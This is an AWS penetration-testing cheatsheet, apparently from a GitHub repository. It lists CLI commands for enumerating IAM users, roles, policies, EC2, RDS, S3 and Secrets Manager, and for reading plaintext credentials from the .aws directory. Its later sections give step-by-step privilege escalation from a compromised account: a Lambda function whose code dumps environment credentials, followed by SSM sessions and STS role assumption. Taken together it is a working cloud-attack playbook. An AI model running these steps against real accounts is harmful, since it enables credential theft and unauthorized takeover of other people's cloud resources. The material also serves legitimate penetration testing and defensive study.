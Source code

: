 ## AWS cheatsheet
- Create long term access with access key ID + secret key (you will be prompted to enter the values after the command runs)
```
aws configure --profile PROFILE_NAME
```
- Get configured identity information
```
aws sts get-caller-identity --profile PROFILE_NAME
```
- Set environment variables and configure identity (access key ID + secret key + session token)
```
set AWS_ACCESS_KEY_ID=KEY
set AWS_SECRET_ACCESS_KEY=SECRET_KEY
set AWS_SESSION_TOKEN=TOKEN
aws configure
```
- Local credentials are stored in `/home/USERNAME/.aws` on Linux and `C:\Users\USERNAME\.aws` on Windows. `cat credentials` under either of the directories to get plaintext credentials.

### User enumeration
- List all IAM users
```
aws iam list-users
```
- List a specific user's IAM groups
```
aws iam list-groups-for-user --user-name USERNAME
```
- List a specific user's attached managed IAM policies
```
aws iam list-attached-user-policies --user-name USERNAME
```
- List a specific user's attached inline IAM policies
```
aws iam list-user-policies --user-name USERNAME
```

### Group enumeration
- List all IAM groups
```
aws iam list-groups
```
- List a specific group's attached managed IAM policies
```
aws iam list-attached-group-policies --group-name GROUPNAME
```
- List a specific group's attached inline IAM policies
```
aws iam list-group-policies --group-name GROUPNAME
```

### Role enumeration
- List all IAM roles
```
aws iam list-roles
```
- List a specific role's attached managed IAM policies (useful when a federated user is compromised) 
```
aws iam list-attached-role-policies --role-name ROLENAME
```

- List a specific role's inline managed IAM policies (useful when a federated user is compromised) 
```
aws iam list-role-policies --role-name ROLENAME
```

### Policy enumeration
- List all IAM policies
```
aws iam list-policies
```
- Get a specific managed policy's information
```
aws iam get-policy --policy-arn POLICYARN
```

- List a specific policy's version information
```
aws iam list-policy-versions --policy-arn POLICYARN
```
- Get the information of a version of a specific policy
```
aws iam get-policy-version --policy-arn POLICYARN --version-id VERSIONID
```
- Get a specific user/group/role's inline policy document (use the last one with federated users)
```
aws iam get-user-policy --user-name USERNAME --policy-name POLICYNAME
aws iam get-group-policy --group-name GROUPNAME --policy-name POLICYNAME
aws iam get-role-policy --role-name ROLENAME --policy-name POLICYNAME
```

### EC2 instance enumeration
- List all EC2 instances for a specific region
```
aws ec2 describe-instances --region REGION
```
- Scan the external IP address of EC2 instances with `nmap`
```
nmap -sS -Pn IP1,IP2,IP3
```

### RDS enumeration
- List DB instances:
```
aws rds describe-db-instances --region REGION
```
- Get a DB's security group info:
```
aws ec2 describe-security-groups --group-ids SGID --region REGION
```

### Secret manager enumeration
- List secrets:
```
aws secretsmanager list-secrets
```
- Get a specific secret:
```
aws secretsmanager get-secret-value --secret-id SECRETID
```

### Enumeration for initial foothold
- Use cloud_enum to enumerate the organization
```
./cloud_enum.py -k ORGNAME
```
- Use `pacu` for advanced enumeration (an other activities) with credentials. Specifically the `iam__privesc_scan` script.

### S3 bucket enumeration
- List all S3 buckets
```
aws s3 ls --profile PROFILE
```
- List a specific S3 bucket's content
```
aws s3 ls BUCKETNAME
```
- Download an object from an S3 bucket
```
aws s3 copy s3://BUCKETNAME/OBJECTNAME /PATH/TO/LOCAL/COPY
```

### Privilege escalation via lambda functions
- If the compromised account has access to create lambda functions and `iam:PassRole` privileges then a lambda function with high privileges can be created
- Store the following code in a file and name it `lambda_function.py`
```
import json
import subprocess

def lambda_handler(event, context):
    data = subprocess.Popen('env', stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    output, errors = data.communicate()
    return {
        'statusCode': 200,
        'body': json.dumps(output)
    }
```
- Zip the file in an archive and run the following command
```
aws lambda create-function --function-name privesc-fun --runtime python3.7 --zip-file fileb://my-function.zip --handler lambda_function.lambda_handler --role ROLEARN --region REGION --profile PROFILE
```
- List lambda functions to confirm the function was created
```
aws lambda list-functions
```
- Run the function to obtain short-lived credentials
```
aws lambda invoke --function-name "privesc-fun" --log-type Tail output.txt --region REGION --profile PROFILE
```

### Privilege escalation via SSM
- If the compromised account has `ssm:*` access then it has access to VMs and EC2 instances without needing a public IP address, SSH keys or username/password combinations
- Start a session in an EC2 instance
```
aws ssm start-session --target INSTANCE_ID --profile PROFILE --region REGION
```
- Enumerate the EC2 instance's role
```
aws sts get-caller-identity
```
- Continue enumeration and repeat the enumeration commands at the top of this document

### Privilege escalation via STS
- If the compromised account has `sts:*` privileges then you can assume roles
- Enumerate the existing roles and check for the `sts:AssumeRole` action for the role you currently hold
- Assume the role found and get a short-lived credential set
```
aws sts assume-role --role-arn FOUNDROLEARN --role-session-name SOMENAME
```
### More resources
- https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/
